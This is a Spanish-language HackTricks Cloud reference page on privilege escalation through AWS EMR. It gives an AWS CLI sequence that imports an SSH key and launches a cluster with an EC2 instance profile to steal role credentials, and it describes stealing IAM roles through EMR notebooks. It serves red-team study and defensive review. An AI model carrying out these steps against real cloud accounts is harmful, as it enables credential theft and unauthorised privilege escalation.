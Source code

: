 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

Más **info sobre EMR** en:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Un atacante con estos permisos puede **ejecutar un nuevo clúster EMR adjuntando roles de EC2** e intentar robar sus credenciales.\
Ten en cuenta que para hacer esto necesitarías **conocer alguna clave privada ssh importada en la cuenta** o importar una, y poder **abrir el puerto 22 en el nodo maestro** (puedes hacer esto con los atributos `EmrManagedMasterSecurityGroup` y/o `ServiceAccessSecurityGroup` dentro de `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Note cómo un **rol EMR** se especifica en `--service-role` y un **rol ec2** se especifica en `--ec2-attributes` dentro de `InstanceProfile`. Sin embargo, esta técnica solo permite robar las credenciales del rol EC2 (ya que te conectarás a través de ssh) pero no el Rol IAM de EMR.

**Impacto Potencial:** Privesc al rol de servicio EC2 especificado.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

Con estos permisos, un atacante puede ir a la **consola de AWS**, crear un Notebook y acceder a él para robar el Rol IAM.

{% hint style="danger" %}
Incluso si adjuntas un rol IAM a la instancia del notebook, en mis pruebas noté que pude robar credenciales administradas por AWS y no credenciales relacionadas con el rol IAM.
{% endhint %}

**Impacto Potencial:** Privesc al rol administrado por AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Solo con este permiso, un atacante podrá acceder al **Jupyter Notebook y robar el rol IAM** asociado a él.\
La URL del notebook es `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Incluso si adjuntas un rol IAM a la instancia del notebook, en mis pruebas noté que pude robar credenciales administradas por AWS y no credenciales relacionadas con el rol IAM.
{% endhint %}

**Impacto Potencial:** Privesc al rol administrado por AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
